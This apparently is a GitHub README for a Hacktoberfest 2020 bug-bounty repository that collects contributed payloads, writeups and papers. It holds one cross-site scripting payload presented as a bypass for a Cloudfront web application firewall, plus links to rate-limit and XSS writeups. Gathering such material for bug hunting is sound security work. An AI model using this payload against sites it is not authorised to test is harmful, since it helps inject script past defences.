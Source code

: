 <center><img src="https://hacktoberfest.digitalocean.com/assets/h-dark-d1a5f262f5aa5936d3bc526365938d98f3946e669f6e2cd9ae1e7a848c57e351.svg" alt="drawing" width="200"/></center>

# Hacktoberfest 2020

Hacktoberfest® is open to everyone in our global community. Whether you’re a developer, student learning to code, event host, or company of any size, you can help drive growth of open source and make positive contributions to an ever-growing community. All backgrounds and skill levels are encouraged to complete the challenge.

- Hacktoberfest is a celebration open to everyone in our global community.
- Pull requests can be made in any GitHub-hosted repositories/projects.
- You can sign up anytime between October 1 and October 31.
## Let's contribute the easy way

For this time I will try to fill in the repo with a payload related to Bug Hunting, you can add it to participate in the Hacktoberfest 2020 event and also make it easier for other Bug Hunters to handle problems such as payloads being blocked by WAF and others by adding your payload or bugbounty writeup in a new line with the format shown below.

## Payload List
##### XSS Bypass Cloudfront WAF By Noobsec
```html
x"><--<img src= "><details/open/ontoggle=alert(`mindbl0w@bugcrodninja.com`)>> --!>=
```
---

## Writeup List
##### No Rate Limiting to Bypass Phone Verification
- [Rate Limit ~ Graylife](https://graylife.co/2019/infosec/perfectmoney-bug-bounty-otp-bypass-170)
- [XSS in OLX Bug Bounty](https://medium.com/@abaykandotcom/olx-bug-bounty-reflected-xss-adb3095cd525)

---

## Paper List
##### Unicode Transformations Finding Elusive Vulnerabilities
- [Unicode Transformations ~ Owasp](https://owasp.org/www-pdf-archive/Unicode_Transformations_Finding_Elusive_Vulnerabilities-Chris_Weber.pdf)

---
## Contributing
Pull requests are welcome. For major changes, please open an issue first to discuss what you would like to change.

Please make sure to update tests as appropriate.

## License
[MIT](https://choosealicense.com/licenses/mit/)
